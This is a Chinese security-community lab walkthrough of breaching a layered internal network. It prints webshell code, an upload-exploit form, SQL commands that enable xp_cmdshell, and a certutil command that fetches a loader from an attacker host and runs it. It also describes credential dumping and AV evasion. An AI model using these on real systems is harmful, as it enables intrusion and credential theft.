








# 攻防实战-手把手带你打穿内网 - 先知社区

攻防实战-手把手带你打穿内网

- - -

# 六朝何事，只成门户私计！

## 目录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112135714-6f26e628-b10f-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112135727-76e80fea-b10f-1.png)

## **环境配置**

### **网络配置**

本次实战绘制出来的网络拓扑图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112135741-7f85aa36-b10f-1.png)

## **第一层：12server-web1**

### **信息搜集**

网站url：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112135752-85fb268e-b10f-1.png)

目录扫描

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112135802-8ba0175c-b10f-1.png)

扫到后台地址：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112135833-9e73cd10-b10f-1.png)

发现有注册功能， 先注册一下尝试能不能登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112135842-a3956bdc-b10f-1.png)

注册后成功登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112135851-a929403c-b10f-1.png)

搜集到的信息

cms:HDHCMS

服务器名称：12SERVER-WEB1

操作系统：MicrosoftWindows NT 6.3.9600.0

中间件：IIIS8.5

脚本语言：aspx

物理路径：C:\\Hws.com\\HwsHostMaster\\wwwroot\\www.xxx.com\\web\\admin\\Hdhadmin.aspx

数据库：MSSQL

上传目录：upfiles/

富文本编辑器：百度Ueditor1.4.3

### **边界突破**

在后台发现的富文本编辑器：百度Ueditor1.4.3 ，这个版本爆出过任意文件上传漏洞 ， 可以直接拿shell， 进行漏洞验证

访问网上公开的POC，发现报错

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112135906-b2398ca4-b10f-1.png)

很多情况下网站的二次开发会更改默认路径，已经知道了是HDHCMS，去查找其公开的源码，通过源代码的审计 ，得到编辑器路径

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112135921-babdae28-b10f-1.png)

之后进行漏洞利用 ，构造一个aspx的图片马

aspx一句话木马：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112135953-ce37bc50-b10f-1.png)

然后图片马上传到公网服务器上

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140005-d4f3816e-b10f-1.png)

本地构造一个上传的form表单

```plain
<form action="http://www.xxx.com/admin/net/controller.ashx?action=catchimage"enctype="application/x-www-form-urlencoded"  method="POST">
<p>shell addr:<input type="text" name="source[]" /></p >
<input type="submit" value="Submit" />
</form>
```

上传图片马，上传地址修改为：[http://192.168.8.198/2.jpg?.aspx](http://192.168.8.198/2.jpg?.aspx)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140017-dc1cd8be-b10f-1.png)

成功上传该文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140028-e2a7d1ac-b10f-1.png)

访问木马地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140036-e7b9e090-b10f-1.png)

蚁剑连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140045-ed02963c-b10f-1.png)

whoami查看权限发现是普通用户权限

ipconfig进行信息收集，发现存在内网网段

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140056-f35a9fb6-b10f-1.png)

查看进程：tasklist

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140106-f9cd283c-b10f-1.png)

进行识别发现存在360全家桶和护卫神

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140119-017c213c-b110-1.png)

### **哥斯拉提权**

哥斯拉生成1.aspx的木马

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140129-072968ec-b110-1.png)

生成的木马内容：

<%@ Page Language="Jscript"%><%eval(Request.Item\["pass"\],"unsafe");%>

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140137-0c0a1c62-b110-1.png)

成功连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140146-11285088-b110-1.png)

命令行执行whoami是普通用户权限

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140154-15eaff26-b110-1.png)

进入SweetPotato模块，点击load，点击run，成功提权到system权限

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140203-1b787e78-b110-1.png)

### **cs拿shell**

打开CS，这是个服务器与客户端多对多架构的工具，先开服务端

在Listeners面板中点击Add按钮，新建一个监听器，如图

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140215-22a0ed98-b110-1.png)

生成Payload 这里使用Pakages生成一个Payload。在菜单栏中依次选择Attacks→Pakages→Payload Generator命令，如图

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140227-29da4dd4-b110-1.png)

保持默认配置，选择已经创建的监听器，设置输出类型为c，注意勾选x64，然后点击Generate按钮， 如图

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140241-3220eade-b110-1.png)

**加壳免杀**

使用 cobaltstrike分离免杀工具生成loader.exe文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140250-378cd50a-b110-1.png)

过360火绒静态查杀

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140258-3c9a0ff4-b110-1.png)

通过蚁剑上传到C:/Hws.com/HwsHostMaster/wwwroot/www.xxx.com/web/upfiles/image/xxx/目录下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140310-43c2890a-b110-1.png)

哥斯拉进行提权成功以system权限上线到cs

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140321-49ef07b8-b110-1.png)

### **获取凭据**

logonpasswords 获取凭据

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140331-5011216c-b110-1.png)

查看凭据

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140340-55955b08-b110-1.png)

破解凭据，得到管理员的账号密码：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140404-636998ca-b110-1.png)

### **远程登陆**

查看防火墙（需要administrator权限）

shell netsh firewall show state

可以看到防火墙是关闭的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140414-69813dee-b110-1.png)

shell netstat -ano 可以看到没有开放3389端口

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140422-6e9fa09a-b110-1.png)

打开3389端口

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140430-734eb8d8-b110-1.png)

shell netstat -ano 再次查看可以看到3389端口已开放

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140439-788a88ea-b110-1.png)

使用上面得到的管理员的账号密码进行登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140449-7e374102-b110-1.png)

页面显示报错密码过期

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140457-836d123c-b110-1.png)

通过搜寻资料，了解到密码过期并不是真的过期，可能是开启了仅允许运行使用网络级别身份验证的远程桌面的计算机连接

关闭仅允许运行使用网络级别身份验证的远程桌面的计算机连接

shell REG ADD "HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\WinStations\\RDP-Tcp" /v UserAuthentication /t REG\_DWORD /d "0" /f

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140512-8c595748-b110-1.png)

成功登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140520-9116a240-b110-1.png)

## **第二层：12server-data1**

### **信息搜集**

查看内网第二层网段存活的机器

arp -a 可以看到内网第二层网络还有一台192.168.59.129机器存活

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140531-978659ea-b110-1.png)

**线索发现**

通过蚁剑和哥斯拉拿到的shell，查看数据库的配置文件

绝对路径

C:/Hws.com/HwsHostMaster/wwwroot/www.xxx.com/web/HdhApp.config

从源代码中发现是站库分离的，数据库服务器刚好是上面内网第二层网络的192.168.59.129机器

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140543-9e83a734-b110-1.png)

并且判断是1433端口MSSQL数据库的sa权限

```plain
<add key="HdhCmsConnStr" value="user id=sa;password=pass123@.com;initial catalog=DemoHdhCms;data source= 192.168.59.129"/>
```

**开代理连数据库**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140553-a4d0040c-b110-1.png)

cs服务器的地址和端口

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140600-a90d282e-b110-1.png)

连接数据库

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140608-ada9b06e-b110-1.png)

成功连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140616-b2915aaa-b110-1.png)

### **开启xp\_cmdshell**

新建查询，启用xp\_cmdshell

```plain
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;EXEC sp_configure 'show advanced options',1;
```

如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140628-b963a45a-b110-1.png)

尝试调用xp\_cmdshell运行系统命令

EXEC master..xp\_cmdshell 'ipconfig';

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140637-befc0344-b110-1.png)

恢复／删除xp\_cmdshell

```plain
exec sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll' 
exec sp_dropextendedproc 'xplog70.dll'
```

关闭xp\_cmdshell

```plain
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',0;
RECONFIGURE;
```

### **上线cs**

查看一下有无杀软tasklist ， 发现存在火绒

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140649-c5c192d4-b110-1.png)

做一下火绒的免杀 ， 尝试上线， 使用windows的certutil命令远程下载文件

```plain
EXEC master..xp_cmdshell 'certutil -urlcache -split -f http://192.168.8.198/loader.exe C:\Windows\Temp\schost.exe'; 
EXEC master..xp_cmdshell 'C:\Windows\Temp\schost.exe';
```

漏洞利用：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140700-cccf488c-b110-1.png)

成功上线cs

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140711-d2f93682-b110-1.png)

如果目标机器出网，可以把木马放到自己的公网服务器上，如果目标机器不出网，只需把木马放到12server-web1上，供其下载

### **权限提升**

使用MS16-075Sweet Potato进行提权

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140726-dbdace78-b110-1.png)

漏洞利用

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140736-e1e3090c-b110-1.png)

成功提权

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140745-e76290b4-b110-1.png)

### **获取凭据**

logonpasswords 获取凭据

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112140757-ee59cbb2-b110-1.png)

查看凭据

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141019-4340a9de-b111-1.png)

破解凭据，得到管理员的账号密码：

### **远程登陆**

查看防火墙（需要administrator权限）

shell netsh firewall show state

可以看到防火墙是关闭的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141032-4abc5104-b111-1.png)

shell netstat -ano 可以看到没有开放3389端口

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141038-4ec2db2e-b111-1.png)

打开3389端口

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141045-52d9961c-b111-1.png)

shell netstat -ano 再次查看可以看到3389端口已开放

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141052-56e50fde-b111-1.png)

挂上12server-web1的代理，使用上面得到的管理员的账号密码进行登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141058-5a84611c-b111-1.png)

成功登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141105-5e586f72-b111-1.png)

## **第三层：12server-web2**

### **信息搜集**

查看内网第三层网段存活的机器

arp -a 可以看到内网第二层网络还有一台192.168.22.130机器存活

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141113-635d5e06-b111-1.png)

### **开代理访问12server-web2**

通过12server-data1开代理访问12server-web2

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141120-678ee5f8-b111-1.png)

cs服务器的地址和端口

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141127-6beae35e-b111-1.png)

### **信息搜集**

代理端口扫描

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141135-703e9d92-b111-1.png)

目录扫描

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141142-746d058e-b111-1.png)

访问

[http://192.168.22.130/a.php](http://192.168.22.130/a.php)

目录扫描发现报错页面得知为phpstudy\_pro

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112142217-eef88ad4-b112-1.png)

访问80端口的web服务

[http://192.168.22.130/](http://192.168.22.130/)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141157-7d73fda4-b111-1.png)

### **JWT爆破**

登录请求中 ， 在token中发现jwt认证

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141204-81a2787e-b111-1.png)

jwt的特征就是前两段是base64编码（去掉==），最后一段是秘钥，然后点号拼接

爆破工具 jwt\_tool（github直接下载）工具

git clone [https://github.com/ticarpi/jwt\_tool.git](https://github.com/ticarpi/jwt_tool.git)

爆破的命令

```plain
python3 jwt_tool.py xxx -C -d xxx.txt
```

成功爆破出秘钥：xxx is the CORRECT key!

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141216-88ae9e54-b111-1.png)

JWT加解密

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141224-8daa9f8e-b111-1.png)

admin用户签名后的jwt

首先对浏览器代理进行配置

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141231-91b7dc36-b111-1.png)

其次对burp进行配置

和浏览器代理同一配置

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141237-95bd845c-b111-1.png)

和代理同一配置

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141245-9a7a59b6-b111-1.png)

抓取数据包修改X-token

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141257-a12a88c6-b111-1.png)

以admin身份登陆进去，之后发现后台什么都没有

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141303-a52494bc-b111-1.png)

### **phpmyadmin写日志拿shell**

根据上面目录扫描的结果得出是phpstudypro，本地搭建测试安装phpmyadmin，找到默认路径phpmyadmin4.8.5

[http://192.168.22.130/phpmyadmin4.8.5](http://192.168.22.130/phpmyadmin4.8.5)

root和jwt跑出的key：xxx 登陆

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141318-ade32b7c-b111-1.png)

利用phpmyadmin日志

```plain
show variables  like  '%general%';
SET GLOBAL general_log='on'; SHOW VARIABLES LIKE '%general%';
SET GLOBAL general_log_file='C:/phpStudy_pro/www/shell.php';
SELECT '<?php eval($_POST["cmd"]);?>'
```

写入一句话

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141326-b29d1790-b111-1.png)

蚁剑连接

地址：[http://192.168.22.130/shell.php](http://192.168.22.130/shell.php)

密码：cmd

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141342-bc5ebd92-b111-1.png)

ipconfig内网还有其他网段

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141349-c095d8d2-b111-1.png)

whoami直接是administrator权限

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141356-c45b1702-b111-1.png)

### **上线cs**

12server-data1设置中转监听

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141402-c85b1366-b111-1.png)

选择内网可以访问到的目标

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141410-ccd9b208-b111-1.png)

生成木马，通过蚁剑上传到12server-web2，执行木马

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141417-d0e34864-b111-1.png)

JuicyPotato (ms16-075)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141423-d49ca3e2-b111-1.png)

提权

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141430-d8990dd2-b111-1.png)

### **获取凭据**

logonpasswords 获取凭据

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141439-de5d9652-b111-1.png)

查看凭据

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141447-e315e4b0-b111-1.png)

破解凭据，得到本地管理员的账号密码：

### **远程连接**

挂代理远程连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141500-eaa5d690-b111-1.png)

成功连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141507-eedc4154-b111-1.png)

## **第四层：12server-data2**

### **信息搜集**

net view查看目标

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141514-f2da2aaa-b111-1.png)

发现内网还有一台12server-data2和一台16server-dc1

查看域管

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141522-f786a5ec-b111-1.png)

查看域控详细信息

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141540-0299ffa6-b112-1.png)

查看域用户

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141547-06d71d10-b112-1.png)

获取域控NTML

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141554-0aebda3a-b112-1.png)

### **psexec进行横向**

有域控的明文密码并且域控是开放445端口的，所以可以尝试psexec进行横向。

使用cs自带插件

首先设置smb监听

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141601-0f036d22-b112-1.png)

从目标出发

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141609-1405ae34-b112-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141617-18c3af0c-b112-1.png)

### **上线cs**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141625-1d32b8f8-b112-1.png)

## **第四层：12server-dc1**

### **psexec进行横向**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141631-210f489c-b112-1.png)

### **上线cs**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141637-246d8760-b112-1.png)

最终达到的效果如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240112141655-2f3fddaa-b112-1.png)

文笔生疏，措辞浅薄，望各位大佬不吝赐教，万分感谢。

免责声明：由于传播或利用此文所提供的信息、技术或方法而造成的任何直接或间接的后果及损失，均由使用者本人负责， 文章作者不为此承担任何责任。

转载声明：儒道易行 拥有对此文章的修改和解释权，如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章的内容，不得以任何方式将其用于商业目的。
